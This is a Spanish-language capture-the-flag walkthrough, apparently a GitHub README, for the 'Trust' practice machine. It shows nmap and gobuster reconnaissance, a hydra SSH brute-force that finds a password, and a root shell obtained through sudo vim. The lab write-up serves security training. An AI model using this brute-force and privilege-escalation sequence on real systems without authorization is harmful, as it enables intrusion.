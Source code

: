 # Maquina-Trust 
## Resolviendo maquina-Trust de "El Pingüino de Mario" 

> Paso N°:1 Scaneo con nmap. (Fase de reconocimiento)

```bash
nmap -A 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 09:40 -03
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3
(ECDSA)
|_ 256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b
(ED25519)
80/tcp open http Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds
```
![scaneo1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/839fd0e6-ddae-4b03-ad92-ea861a58cfa6)

## Paso N°2: Buscamos alguna pista en la web.
### -Ya que podemos ver en el scaneo de nmap que el puerto "80/tcp open http Apache httpd 2.4.57 ((Debian))" esta abierto, asi que ponemos "http://172.17.0.2" en el navegador para ver que muestra:_

![scaneo2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4e677bca-cea9-4c82-8f11-cc9d40e33d8a)


## Paso N°3: Enumeracion usando gobuster.

```bash
gobuster dir -u "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
![scaneo3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/8ebee023-93c2-44f5-9310-f141b58d1928)



## Paso N°4: revisar y utilizar lo encontrado.

### _En éste caso vemos un "/secret.php" el cual vamos a usar poniendolo en la web como "http://172.17.0.2/secret.php" ,en la salida nos encontramos con un mensaje que dice:_ 
> mario, ésta web no es vulnerable.

![scaneo4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/116d220c-227e-4319-ab35-499b67743eba)

### _Asi que como nos da un nombre (Mario) podemos usarlo de prueba para ver si podemos obtener acceso por medio del ssh,
pero como no tenemos la contraseña vamos a usar ataque de fuerza bruta en éste caso con hydra_

## Paso N°5: Ataque de Fuerza Bruta con Hydra.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-17 10:22:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-17 10:22:52
```
![scaneo5](https://github.com/EzeTauil/maquina-Trust/assets/118028611/72496ff2-a25a-4391-b968-884e9088714b)

## Paso N°6: Explotacion-Acceso por ssh.
### Con el ataque de Hydra encontramos la contraseña para el usuario mario la cual es "chocolate", asi que ahora nos conectamos a traves de ssh de la siguiente manera:

```bash
ssh mario@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux 10340d532be9 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```
![acceso1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/48290ae0-a9fb-40d7-8869-f3bb7bab4586)


## Paso N°7: Escalando Privilegios.

```bash
~$ whoami
mario
```
![acceso2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4050709c-8b2c-44e3-9aa3-56f4a0a00c73)


### _Procedemos a verificar que comandos podemos ejecutar como usuario root, lo hacemos con el comando (sudo -l)_

```bash
mario@10340d532be9:~$ sudo -l  
[sudo] password for mario: 
Matching Defaults entries for mario on 10340d532be9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 10340d532be9:
    (ALL) /usr/bin/vim
```
![acceso3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/878ea32a-5cf4-4c02-8436-52109abf2a36)

### _Aca vemos que podemos usar "vim" como usuario root, asi que podemos explotar ésto para obtener una shell con privilegios de root, lo hacemos de la siguiente manera: (sudo vim) una vez adentro precionamos "Esc" y despues ":" y escribimos "!sh" de manera que el comando final quedaria asi ":!sh" y precionamos "Enter" ésto nos abre la shell como usuario root, lo comprobamos usando el comando "whoami" , si nos devuelve "root" es que lo logramos.

![acceso4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/c13dd59c-84a2-4b3b-a0a2-4ed5b75bdc4e)

## Obteniendo Shell con acceso root:

![accesoroot](https://github.com/EzeTauil/maquina-Trust/assets/118028611/5afc3cb7-1047-4137-8a17-def53769b98d)






